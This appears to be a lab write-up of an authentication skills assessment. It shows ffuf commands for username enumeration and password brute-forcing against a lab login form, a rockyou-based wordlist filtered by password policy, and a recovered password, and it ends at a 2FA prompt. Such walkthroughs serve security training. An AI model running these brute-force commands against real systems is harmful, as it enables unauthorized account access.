 # 🚘 Skills Assessment

First i create an account:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i connect to admin panel:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I created 2 accounts, felix and felix1 to look at some differences:

and i saw the following:

cookie of felix: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

\---------- felix1: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok after a bit of messing arounf i find the path

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found user gladys

now let's create a custom wordlist according to password policy:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '{12}' > custom_wordlist.txt
```

Now we bruteforce:

```
ffuf -w custom_wordlist.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>dWinaldasD13</p></figcaption></figure>

Now with the creds, let's connect, we can see 2FA:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>
